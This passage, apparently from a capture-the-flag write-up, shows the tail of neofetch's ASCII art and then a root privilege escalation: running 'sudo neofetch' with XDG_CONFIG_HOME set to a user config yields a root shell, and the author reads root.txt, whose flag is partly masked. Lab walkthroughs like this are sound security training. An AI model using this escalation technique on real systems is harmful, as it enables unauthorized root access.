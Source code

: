          `$$b.
           `Y$$b.
              `"Y$b._
                  `"""



But with `$XDG_CONFIG_HOME` set, it returns a shell:



    thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # bash
    root@meta:/home/thomas#



And I can grab `root.txt`:



    root@meta:~# cat root.txt
    ddaefee6************************







